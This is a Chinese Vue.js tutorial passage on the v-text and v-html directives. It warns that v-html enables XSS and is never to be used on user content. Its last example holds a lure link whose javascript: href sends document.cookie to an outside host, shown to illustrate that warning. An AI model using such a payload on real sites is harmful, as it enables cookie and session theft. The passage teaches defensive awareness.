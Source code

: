 - html

  ```html
  	<div id="root">
  		<div>你好，{{name}}</div>
  		<div v-text="name"></div>
  		<div v-text="str"></div>
  	</div>
  ```

- js

  ```js
  	new Vue({
  		el: '#root',
  		data: {
  			name: '尚硅谷',
  			str: '<h3>你好啊！</h3>'
  		}
  	})
  ```

#### 2.v-html_指令

v-html指令：

1. 作用：向指定节点中渲染包含html结构的内容。
2. 与插值语法的区别：
    1. v-html会替换掉节点中所有的内容，{{xx}}则不会。
    2. v-html可以识别html结构。
3. 严重注意：v-html有安全性问题！！！！
    1. 在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。
    2. 一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！

- html

  ```html
  	<div id="root">
  		<div>你好，{{name}}</div>
  		<div v-html="str"></div>
  		<div v-html="str2"></div>
  	</div>
  ```

- js

  ```js
  	new Vue({
  		el: '#root',
  		data: {
  			name: '尚硅谷',
  			str: '<h3>你好啊！</h3>',
  			str2: '<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
  		}
  	})
  ```
